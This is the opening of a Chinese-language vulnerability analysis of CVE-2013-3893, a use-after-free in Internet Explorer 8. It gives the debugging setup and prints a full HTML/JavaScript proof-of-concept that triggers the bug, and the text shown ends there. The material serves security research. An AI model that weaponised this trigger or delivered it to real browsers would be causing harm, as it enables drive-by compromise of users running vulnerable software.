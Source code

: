 # CVE-2013-3893 IE8 UAF漏洞分析

**Author:wnagzihxa1n
E-Mail:wnagzihxa1n@gmail.com**

- 调试环境：Win7
- IE版本：8.0.7601.17514

载入Poc，使用WinDbg挂接，不做任何操作直接运行，断在如下位置

![](Image/1.png)

确保Poc能运行且WinDbg运行良好，我们来看Poc
```
<html>
<script>
function trigger()
{
    var id_0 = document.createElement("sup");
    var id_1 = document.createElement("audio");
    document.body.appendChild(id_0);
    document.body.appendChild(id_1);
    id_1.applyElement(id_0);
    id_0.onlosecapture = function(e) {
        document.write("");
    }
    id_0["outerText"] = "";
    id_0.setCapture();
    id_1.setCapture();
}
window.onload = function() {
    trigger();
}
</script>
</html>
```
